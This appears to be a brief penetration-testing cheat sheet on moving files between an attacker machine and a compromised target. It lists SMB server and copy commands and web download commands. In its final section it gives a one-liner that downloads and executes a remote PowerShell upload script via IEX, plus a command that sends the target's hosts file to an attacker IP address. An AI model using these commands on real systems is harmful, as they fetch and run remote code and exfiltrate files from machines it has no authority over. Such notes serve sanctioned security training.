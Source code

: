 # Links to CheatSheets
https://guide.offsecnewbie.com/transferring-files


# SMB Server
```bash
impacket-smbserver share_name /path/to/share
```
copy files
```powershell
Copy-Item -Path "\\10.10.10.10\test\file.txt" -Destination "C:\destination\file.txt"
copy "\\10.10.10.10\test\file.txt"   "C:\destination\file.txt"
```


# From target share
```bash
smbget --recursive smb://10.10.10.100/sharename
```

# Web
```bash
Invoke-WebRequest -Uri $url -OutFile $outputPath
```

## Uploading to attacker machine
```bash
py -m uploadserver
```
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```